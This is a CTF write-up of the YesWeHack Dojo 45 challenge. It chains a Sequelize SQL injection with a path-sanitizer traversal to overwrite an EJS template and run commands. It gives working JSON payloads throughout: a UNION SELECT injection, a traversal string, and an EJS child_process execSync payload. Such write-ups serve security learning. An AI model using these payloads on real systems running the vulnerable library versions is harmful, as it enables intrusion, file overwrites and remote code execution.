








+++
date = '2026-03-26T19:31:12+01:00'
draft = true
title = 'YesWeHack Dojo 45'
tags = ['ctf', 'sqli', 'path traversal']
image = 'featured.png'
summary = """
In the Dojo 45 Challenge (Chainfection), an SQL injection in Sequelize ORM < 6.19.1, and a Path traversal vulnerability in Path Sanitizer < 3.1.0, allow for arbitrary file writes on the application server, and ultimately to remote code execution via overwriting ejs template files.
"""
+++


# Introduction


The [Dojo 45 - Chainfection](https://dojo-yeswehack.com/challenge-of-the-month/dojo-45) challenge was one of the monthly CTF challenges on the YewWeHack platform.
These challenges follow a common format whereby you are provided an input field in which you
can submit a single input payload, this payload gets passed to an intermediate WAF component,
then executed by the backend and finally the output of executing your input is provided to you.



The dojo 45 application provides us an input field to which we can submit JSON objects that
map to database users for whom we want to upload files on the application server.

One parameter in this object is used within a Sequelize query which makes it possible for
SQL injection and the other parameter is sanitized via a vulnerable `path-sanitizer` library,
giving out an opportunity for path traversal.

Combined together with the application logic, these two vulnerabilities allow us to overwrite
existing files on the target server with content we control, specifically ejs template files.

We then craft a special ejs content which achieves remote code execution and have it overwrite the default `index.ejs` file of the application. This is so that the output of our system command can be rendered in the application's response page.


# Exploitation

## Providing a valid JSON object to the INPUT Field

The first step in approaching this challenge was to try to provide a JSON object that
respects the schema expected by the application.

To achieve that, an empty JSON object was first provided `{}`, and an error reporting a missing key
was immediately thrown by the server. The error reported the missing key in the object.
In the example below, the missing key is `username`.



This key was thus subsequently added and a new JSON object integrating this key was provided again.

```json
{ "username": "foo" }
```

This process was repeated a few more times, until a final valid JSON object was obtained, like the one
below.

```json
{ "username": "foo", "updatedat": "1980-10-3", "attachment": "foo.txt", "content": "hello from document"}
```


## File upload logic

The process of file upload consists of updating the `attachment` property of the user in the sqlite database
with `id=2`. The attachment property of this user is updated with the attachment property of the JSON object
we provide.

```js
await Users.update(
    { attachment: data.attachment },
    {
        where: {
            id: 2,
        },
    }
);
```

The user whose id corresponds to 2 within the application's database is the user `leet`, as shown by the
setup code of the challenge.

```js
async function init() {
    await sequelize.sync();
    // insert users
    await Users.create({
      name: "brumens",
      verify: true,
      attachment: "document.txt",
    });
    await Users.create({
      name: "leet",
      verify: false,
      attachment: "",
    });
}
```

After updating the attachment attribute of the user `leet`, the application tries to fetch a user from the
database that respects 3 conditions.

- The first condition is that, the row of that user should have been modified more recently than
  the date provided in the `updatedat` property of our JSON object (`data.updatedat`). Notice that `data.updatedat`
  is passed to the query as a [replacement](https://sequelize.org/docs/v6/core-concepts/raw-queries/#replacements) within a sequelize literal.
- The name of that user should correspond to the `username` property of the JSON object we provide (`data.username`).
  Notice that `data.username` is not passed as a replacement, but placed directly as is within the query.
- The row of the returned user should have the property `verify` set to true.

```js
    const user = await Users.findOne({
      where: {
        [Op.and]: [
          sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`),
          { name: data.username },
          { verify: true }
        ],
      },
      replacements: { updatedat: data.updatedat },
    })
```

The last condition implies that only the user `brumens` could be returned from the database, as it is the
only user that was initialized in the database with the column `verify` set to true.

```js
    await Users.create({
      name: "brumens",
      verify: true,
      attachment: "document.txt",
    });
    await Users.create({
      name: "leet",
      verify: false,
      attachment: "",
    });
```

Once we got a user that respects all 3 conditions above, a path is built with the `attachment` property of
that user, and the app attempts to write to the file corresponding to that path, with content we provided as
`data.content`.

```js
    // Sanitize the attachment file path
    const file = `/tmp/user/files/${psanitize(user.attachment)}`
    // Write the attachment content to the sanitized file path
    fs.writeFileSync(file, data.content)
```

Thus in summary, we can control the attachment property of the user `leet`, but can't get him to be returned
from the second Sequelize query, so that we can write to the path of that attachment.


## Sql Injection: SEQUELIZE ORM < 16.19.1

According to issue [CVE-2023-25813](https://github.com/sequelize/sequelize/issues/13817), when using replacements with user
provided data, we get errors when the user's input contains the colon (`:`) symbol.

In the specific case of this application, if `data.username` contains a colon (`:`), the query below
will error out, as it will think we are passing in an additional parameter from the replacement object
`replacements: { updatedat: data.updatedat }`.

```js
    const user = await Users.findOne({
      where: {
        [Op.and]: [
          sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`),
          { name: data.username },
          { verify: true }
        ],
      },
      replacements: { updatedat: data.updatedat },
    })
```

As shown by the payload below, we pass `:foo` as the value of `data.username`, so that it gets interpreted
by the Sequelize query as an additional replacement paramter.

```json
{ "username": ":foo", "updatedat": "1990-01-01", "attachment": "foo.txt", "content": "hello from document"}
```

The result is that the backend complains that `:foo` is not a known parameter.



However, the interesting behavior occurs when we provide an already existing parameter within the replacement
object. In this case `updatedat`, which is already in `replacements: { updatedat: data.updatedat }`.
The payload becomes

```json
{ "username": ":updatedat", "updatedat": "1990-01-01", "attachment": "foo.txt", "content": "hello from document"}
```



We get a `SequelizeDatabaseError`, which complains about a syntax error near our token `1990`.
This error hints us that the token `1990-01-01` which is part of the JSON object we provided, somehow
got interpreted as an SQL token and errored out since it is not a valid SQL statement, causing the
`SequelizeDatabaseError`.

A `SequelizeDatabaseError` is an error within the database engine itself. All this means that by passing
`:updatedat` as the value of `data.username`, we were somehow able to influence the final SQL query
generated and executed on the database backend.Thus there's an avenue for SQL injection.

To better understand what was happening at the backend database and the specific queries which were
generated by Sequelize, the challenge environment was recreated locally with the same vulnerable libraries
and the logging (debug) functionality was enabled.

Instead of this in the setup code,

```js
// create a sqlite database
const sequelize = new Sequelize({
  dialect: "sqlite",
  storage: ":memory:",
  logging: false
});
```

Use this locally

```js
const sequelize = new Sequelize({
    dialect: "sqlite",
    storage: ":memory:",
    //logging: false,
    logging: console.log,
});
```

With logging enabled, when we provide the payload `:updatedat` as the value of the second Sequelize condition
and run the script,

```js
    const user = await Users.findOne({
    where: {
        [Op.and]: [
            sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`),
            { name: ":updatedat" }, //data.username
            { verify: true }
        ],
    },
    replacements: { updatedat: "1990-10-01" },
    })
    console.log(`user is : ${user.name}`)
    console.log(`user.attachment: ${user.attachment}`)
```

we see from our error logs the SQL query which Sequelize generates in the backend below

```
  name: 'SequelizeDatabaseError',
  parent: [Error: SQLITE_ERROR: near "1990": syntax error] {
    errno: 1,
    code: 'SQLITE_ERROR',
    sql: "SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE (strftime('%Y-%m-%d', updatedAt) >= '1990-10-01' AND `User`.`name` = ''1990-10-01'' AND `User`.`verify` = 1) LIMIT 1;"
```

And we can observe that, near `User.name`, our string `1990-10-01` isn't correctly quoted. It is surrounded by 2 double
single quotes.

```
`User`.`name` = ''1990-10-01''
```

To evade out of the top level `WHERE` clause, we can simply use the payload below, which closes the conditional paranthesis
for the `WHERE` statement, and comments the rest of the code.

```
);-- -
```

```js
async function fetchuser() {
    const user = await Users.findOne({
    where: {
        [Op.and]: [
            sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`),
            { name: ":updatedat" }, //data.username
            { verify: true }
        ],
    },
    replacements: { updatedat: ");-- -" },
    })
    console.log(`user is : ${user.name}`)
    console.log(`user.attachment: ${user.attachment}`)
}
```

This causes the query to execute properly, but it still ends up returning a null user as the constraint on the recency of
the date isn't met anymore.

```
Executing (default): SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE (strftime('%Y-%m-%d', updatedAt) >= ');-- -' AND `User`.`name` = '');-- -'' AND `User`.`verify` = 1) LIMIT 1;
/home/devel/Code/dojo-45/test.js:45
    console.log(`user is : ${user.name}`)
                                  ^

TypeError: Cannot read properties of null (reading 'name')
```

What we want to achieve is for the query to return a user whose `attachment` property we can control
(in this case the `leet` user).
Using this SQL injection we can circumvent the 3rd constraint on the `verify` field of the user to be `true`,
and return the `leet` user even though its `verify` field is set to `false`. To achieve this, we can use the
`UNION SELECT` payload below, which returns an additional row to the null result returned by the previous
SQL statement.

```sql
) UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = \"leet\";-- -
```

```js
async function fetchuser() {
    const user = await Users.findOne({
    where: {
        [Op.and]: [
            sequelize.literal(`strftime('%Y-%m-%d', updatedAt) >= :updatedat`),
            { name: ":updatedat" }, //data.username
            { verify: true }
        ],
    },
    replacements: { updatedat: ") UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = \"leet\";-- -" },
    })
    console.log(`user is : ${user.name}`)
    console.log(`user.attachment: ${user.attachment}`)
```

The result is that we get the `leet` user returned from the database.

```js
Executing (default): SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE (strftime('%Y-%m-%d', updatedAt) >= ') UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = "leet";-- -' AND `User`.`name` = '') UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = "leet";-- -'' AND `User`.`verify` = 1) LIMIT 1;
user is : leet
user.attachment: 
```


## Path Sanitizer < 3.1.0 Path Traversal Vulnerability

From the setup code, `path-sanitizer@2.0.0` is used by the application.
It is used in the code to sanitize the attachment property of the user acquired from the database,
to build a file path which will be written to.

```js
    // Sanitize the attachment file path
    const file = `/tmp/user/files/${psanitize(user.attachment)}`
    // Write the attachment content to the sanitized file path
    fs.writeFileSync(file, data.content)
```

According to this advisory  [CVE-2024-56198](https://github.com/advisories/GHSA-94p5-r7cc-3rpr), this version of `path-sanitizer`
is vulnerable to path traversal payloads like `..@%2f..@%2f..@%2f..@%2f/etc/passwd`.

```
devel@pc:~/Code/dojo-45$ node
Welcome to Node.js v22.19.0.
Type ".help" for more information.
> psantize = require('path-sanitizer');
[Function: sanitize]
> psantize("..@%2f..@%2f..@%2f..@%2f/etc/passwd")
'../../../../etc/passwd'
> 
> 
```


## Chaining both vulnerabilities

Globally, what we can now do is to provide an arbitrary attachment like `..@%2f..@%2f..@%2f..@%2f/etc/passwd` within
our JSON object such that it gets written to the `leet` user, and combine this with the SQL injection so that the `leet`
user is returned from the Sequelize statement.

The consequence is that the application logic will try to write content (`data.content`) to the file path generated
out of the attachment property of the `leet` user.

Our payload at this stage looks as follows.

```json
{ "username": ":updatedat", "updatedat": ") UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = \"leet\";-- -", "attachment": "..@%2f..@%2f..@%2f..@%2f/etc/passwd", "content": "hello from document"}
```

When we provide this payload to the app's input, we get the error below.



The error we get is `EACCES Permission denied`, which hints to us that we are actually accessing this file for writing,
but we just don't have the right permissions to write over it.

Our primary goal is to access the flag, so it serves us no interest to just be able to write to files on the
remote server. To achieve non-blind code execution, what we can do is to write to the template code `index.ejs`
of the application. The aim is for the template code to be rendered in the view of the application, so that we can
see its effect.

It was determined from the setup code of the challenge that `index.ejs` is in the path `/tmp/view/index.ejs`.

To test this hypothesis we can use the payload below which has as content `<h1><%= 1+1 %></h1>`.
If the template code gets executed correctly we will see the result 2 rendered by the frontend.

```json
{ "username": ":updatedat", "updatedat": ") UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = \"leet\";-- -", "attachment": "..@%2f..@%2f..@%2f..@%2f/tmp/view/index.ejs", "content": "<h1><%= 1+1 %></h1>"}
```



Which is what we get.
To achieve code execution, we use the following template code inspired from https://github.com/NketiahGodfred/EJS-ssti-exploit/blob/f979f39f16faaa4c600a98b51a835452a101784f/exploit.sh#L42C1-L42C255


```js
<%= global.process.mainModule.constructor._load('child_process').execSync('ls -la') %>
```

It lets us execute system commands, using global variables accessible via the scope of `index.ejs`.
Our payload at this stage looks like

```json
{ "username": ":updatedat", "updatedat": ") UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = \"leet\";-- -", "attachment": "..@%2f..@%2f..@%2f..@%2f/tmp/view/index.ejs", "content": "<%= global.process.mainModule.constructor._load('child_process').execSync('ls -la') %>"}
```

When submitted to input field of the challenge, we get the following response.



## POC

Given that the file containing the flag is generated on every new request with a random cryptographic string 
attached to its name, we use the linux wildcard `cat flag*` to match it, irrespective of the random string appended to its name.

The final payload for the flag is shown below.

```json
{ "username": ":updatedat", "updatedat": ") UNION SELECT `id`, `name`, `verify`, `attachment`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`name` = \"leet\";-- -", "attachment": "..@%2f..@%2f..@%2f..@%2f/tmp/view/index.ejs", "content": "<%= global.process.mainModule.constructor._load('child_process').execSync('cat flag*.txt') %>"}
```



flag: FLAG{Bug_C4ins_Br1ng5_Th3_B3st_Imp4ct} 

# References

https://dojo-yeswehack.com/challenge-of-the-month/dojo-45